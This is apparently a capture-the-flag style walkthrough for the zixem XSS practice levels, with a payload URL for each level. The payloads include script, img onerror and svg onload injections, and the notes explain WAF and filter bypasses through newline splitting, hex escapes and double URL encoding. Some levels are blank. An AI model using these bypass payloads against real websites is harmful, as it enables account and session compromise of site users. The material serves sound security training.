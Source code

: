 Level 1: [http://www.zixem.altervista.org/XSS/1.php?name=<script>alert(1337)</script>](https://zixem.altervista.org/XSS/1.php?name=%3Cscript%3Ealert(1)%3C/script%3E) \
Level 2: [http://www.zixem.altervista.org/XSS/2.php?name=<scrIpt>alert(1337)</scrIpt>](https://zixem.altervista.org/XSS/2.php?name=%3CscrIpt%3E%20alert(1)%3C/scrIpt%3E) \
Level 3: [https://zixem.altervista.org/XSS/3.php?name=zxm%0A`<img src=”x” onerror=alert(1337)>`](https://zixem.altervista.org/XSS/3.php?name=zxm%0A%3Cimg%20src=%E2%80%9Dx%E2%80%9D%20onerror=alert(1337)%3E) \
  Using %0A URL-encoded representation of a newline character (Line Feed, LF, \n) in ASCII and UTF-8 encoding. \
  Some WAFs only scan for dangerous keywords within a single line. If an attack payload is split across multiple lines \
  (e.g., using %0A for a newline), the filter may fail to detect it, allowing bypass techniques for XSS, SQLi, and other attacks. \
Level 4: [http://zixem.altervista.org/XSS/4.php?img=htp.pngd'onerror=alert(1337)%20](http://zixem.altervista.org/XSS/4.php?img=htp.pngd'onerror=alert(1337)%20) \
Level 5: https://zixem.altervista.org/XSS/5.php?name=zxm&action=javascript:alert(1337) \
Level 6: https://zixem.altervista.org/XSS/6.php?name=\x3Csvg/onload=alert(1337)\x3E or 
[https://zixem.altervista.org/XSS/6.php?name=\x3Cimg/src="x" onerror=alert(1337)\x3E](https://zixem.altervista.org/XSS/6.php?name=\x3Cimg/src=%22x%22%20onerror=alert(1337)\x3E) \
\x3E and \x3C are hexadecimal escape sequences used in programming languages like JavaScript and C. \
These can be used to bypass WAFs or XSS filters by encoding < and > in attack payloads. \
Level 7 : https://zixem.altervista.org/XSS/7.php?name=zxm%253Cscript%253Ealert(1337)%253C/script%253E \
Double encode < (%253C) and (%253E)> for use in an XSS payload, need to encode them twice using URL encoding \
Level 8 : \ 
Level 9 :[https://zixem.altervista.org/XSS/9.php?name=zxm<svg/onload=alert(1337)>](https://zixem.altervista.org/XSS/9.php?name=zxm%3Csvg/onload=%22alert(1337)%22%3E) or http://zixem.altervista.org/XSS/9.php?name=zxm<SVg/onload=confirm(1337)> \
Level 10 :

